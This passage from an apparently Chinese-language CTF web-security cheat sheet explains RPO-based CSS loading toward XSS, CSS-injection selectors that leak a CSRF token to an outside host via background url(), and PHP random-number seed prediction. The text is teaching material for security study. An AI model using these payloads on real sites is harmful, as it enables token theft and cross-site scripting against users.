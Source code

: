
## RPO

- http://example.com/a%2findex.php
  - 瀏覽器會把`a%2findex.php`當成一個檔案
  - Web Server則會正常解析成`a/index.php`
  - 所以當使用**相對路徑**載入css時，就可以透過這種方式讓瀏覽器解析到其他層目錄下的檔案
    - 如果該檔案內容可控，則有機會XSS
  - 舉例：
    - `/test.php`中有`<link href="1/" ...>`
    - 另有`/1/index.php`給`?query=`參數，會直接輸出該參數內容
    - 訪問`/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`就會讓背景變紅色
      - Server: `/test.php`
      - Browser: `/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`
        - CSS會載入`/1/?query={}*{background-color:red}/../../1/`
      - CSS語法容錯率很高

## CSS Injection

- CSS可控時，可以Leak Information
- Example:
  - leak `<input type='hidden' name='csrf' value='2e3d04bf...'>`
  - `input[name=csrf][value^="2"]{background: url(http://kaibro.tw/2)}`
  - `input[name=csrf][value^="2e"]{background: url(http://kaibro.tw/2e)}`
  - ...
  - SECCON CTF 2018 - GhostKingdom

# 密碼學

## PRNG

- php 7.1.0後 `rand()`和`srand()`已經等同`mt_rand()`和`mt_srand()`
  - 測試結果：https://3v4l.org/PIUEo

- php > 4.2.0 會自動對`srand()`和`mt_srand()`播種
  - 只進行一次seed，不會每次`rand()`都seed

- 可以通過已知的random結果，去推算隨機數種子，然後就可以推算整個隨機數序列
- 實際應用上可能會碰到連上的不是同個process，可以用`Keep-Alive
`來確保連上同個php process(只會seed一次)
- 7.1以前`rand()`使用libc random()，其核心為：`
state[i] = state[i-3] + state[i-31]`
  - 所以只要有31個連續隨機數就能預測接下來的隨機數
  - 後來`rand()` alias成`mt_rand()`，採用的是`Mersenne Twister`算法
- Example: HITCON 2015 - Giraffe’s Coffee


## ECB mode

### Cut and Paste Attack
